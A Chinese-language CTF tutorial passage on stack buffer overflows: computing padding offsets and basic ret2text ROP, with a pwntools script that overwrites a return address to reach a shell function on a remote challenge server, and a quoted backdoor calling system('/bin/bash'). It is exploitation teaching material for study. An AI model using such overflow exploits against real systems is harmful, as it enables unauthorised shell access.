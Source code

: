 #### 确定填充长度

这一部分主要是计算**我们所要操作的地址与我们所要覆盖的地址的距离**。常见的操作方法就是打开 IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

* 相对于栈基地址的的索引，可以直接通过查看 EBP 相对偏移获得
* 相对应栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种类型。
* 直接地址索引，就相当于直接给定了地址。

一般来说，我们会有如下的覆盖需求

* **覆盖函数返回地址**，这时候就是直接看 EBP 即可。
* **覆盖栈上某个变量的内容**，这时候就需要更加精细的计算了。
* **覆盖 bss 段某个变量的内容**。
* 根据现实执行情况，覆盖特定的变量或地址的内容。

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来**直接或者间接地控制程序执行流程**。

### 基本ROP

#### ret2text

程序中有可以直接利用的完整的get shell代码如 return system("/bin/sh");

**例题：XCTF 4th-CyberEarth反应釜开关控制**

main函数：gets函数栈溢出

![](F:%5CPWN%5Cfyf.png)

控制返回到shell函数直接getshell

![](F:%5CPWN%5Cfyf2.png)

exp

```python
from pwn import *
#p = process("./pww")
p=remote('61.147.171.105',50870)

sys_ad =0x4005f6


payload='a'*(0x208)+p64(sys_ad)
p.sendline(payload)

p.interactive()
```

**例题2：攻防世界进阶区stack2**

常规checksec --file检查一下文件和保护，32位程序

IDA看一下反汇编，分析主函数的基本功能，程序是给一组数求平均，一开始要输入数字个数和一组数，看到一个后门函数

这题稍稍不一样，题目给的后门函数长这样：

```c
int hackhere()
{
  return system("/bin/bash");
}
```

